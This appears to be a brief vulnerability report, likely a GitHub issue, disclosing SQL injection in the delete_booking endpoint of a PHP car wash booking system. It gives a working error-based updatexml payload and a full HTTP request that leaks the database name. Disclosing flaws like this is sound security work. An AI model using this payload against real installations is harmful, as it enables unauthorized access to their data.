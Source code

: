# Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/classes/Master.php?f=delete_booking

Vulnerability location: /ocwbs/classes/Master.php?f=delete_booking, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /ocwbs/classes/Master.php?f=delete_booking HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ocwbs/admin/?page=bookings/view_details&id=3
Content-Length: 65
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/169300514-9db5bf05-aae6-4d96-89f7-6ee025688b8d.png)
